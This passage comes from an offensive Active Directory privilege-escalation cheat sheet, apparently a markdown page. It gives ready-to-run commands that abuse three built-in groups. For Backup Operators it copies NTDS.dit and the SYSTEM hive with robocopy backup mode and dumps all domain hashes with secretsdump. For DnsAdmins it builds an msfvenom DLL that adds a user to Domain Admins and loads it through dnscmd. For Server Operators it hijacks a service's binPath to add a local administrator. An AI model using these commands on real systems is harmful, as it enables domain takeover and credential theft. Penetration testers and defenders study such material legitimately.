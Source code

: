 Members of this group are granted **SeBackupPrivilege** and **SeRestorePrivilege** by default. This allows them to bypass file permissions to read and write files, making it a powerful group for escalating privileges, especially on Domain Controllers.

```shell
# The primary attack is to copy the NTDS.dit database and SYSTEM registry hive
# This gives you all the domain password hashes

# Use robocopy's backup mode (/B) to copy the files, ignoring ACLs
robocopy /B C:\Windows\NTDS C:\temp\ ntds.dit
robocopy /B C:\Windows\System32\config C:\temp\ SYSTEM

# Once exfiltrated, use secretsdump to extract the hashes
impacket-secretsdump -ntds C:\temp\ntds.dit -system C:\temp\SYSTEM LOCAL
```

#### **DnsAdmins**

Members of this group can load an arbitrary DLL into the DNS service, which runs as `SYSTEM`.

```shell
# Create a malicious DLL
msfvenom -p windows/x64/exec cmd='net group "domain admins" <user_to_add> /add /domain' -f dll -o adduser.dll

# Configure the DNS server to load the DLL
dnscmd.exe /config /serverlevelplugindll C:\Path\To\adduser.dll

# Restart the DNS service to trigger the payload
sc stop dns
sc start dns
```

#### **Server Operators**

Members can start and stop services. If a service is configured with a weak binary path or permissions, it can be abused.

```shell
# Check service configuration
sc qc <ServiceName>

# Reconfigure the service's binary path to execute your command
sc config <ServiceName> binPath= "cmd /c net localgroup Administrators <your_user> /add"

# Start the service to execute the payload
sc start <ServiceName>

# Cleanup
sc config <ServiceName> binpath= "<Original_Path>"
```

-----

## Attacking the OS & Services
